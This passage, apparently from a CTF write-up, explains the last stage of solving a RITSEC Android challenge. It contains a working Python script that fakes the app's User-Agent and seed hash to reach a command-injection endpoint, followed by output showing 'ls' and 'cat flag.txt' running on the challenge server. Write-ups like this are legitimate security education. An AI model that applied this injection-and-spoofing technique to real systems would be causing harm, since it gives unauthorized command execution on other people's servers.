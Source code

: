 ## The Finale 

Now we have everything we need to do to beat the challenge.

The methodology is that we need to send a packet, exploiting the command injection in `/experiment`. This packet must contain the `Okttp` User-Agent. Lastly, the payload need to contain a rolled(SHA256 hash) version of a `seed` or previous `code` on the server.

My original solution was using [Frida](https://frida.re/) to log the seed value from the app when ran. Then crafting a packet using that in Python. But there is a simpler way of spoofing the app with your own seed.

That version is below...

```py {linenos=inline,linenostart=1}
#!/usr/bin/env python3

import requests
import hashlib

def main():
    headers = {'User-Agent': 'okhttp'}
    seed = b'SEED:\x01\x01\x02\x03'

    URL0 = 'http://the-andro-experiment.ctf.ritsec.club/ping'
    response = requests.post(url=URL0, data=seed, headers=headers)

    command = input("Enter command: ")
    URL1='http://the-andro-experiment.ctf.ritsec.club/experiment?command=' + command
    payload = hashlib.sha256(b'\x01\x01\x02\x03').digest()

    response = requests.post(url=URL1, data=payload, headers=headers)
    print(response.text)


if __name__ == "__main__":
    main()
```

As you can see, we send the seed at first to `/ping` using `requests` with the `okhttp` User-Agent. This allows the user to then send the command given through user input to `URL1`. We hash the seed ourselves and replace the data of the request with that. Then we get our result.

```sh
$ ./simple_pwn.py
Enter command: ls
entrypoint.sh
flag.txt
main.py
requirements.txt
static
templates

$ ./simple_pwn.py
Enter command: cat flag.txt
...
```

<details><summary>Flag</summary></details>

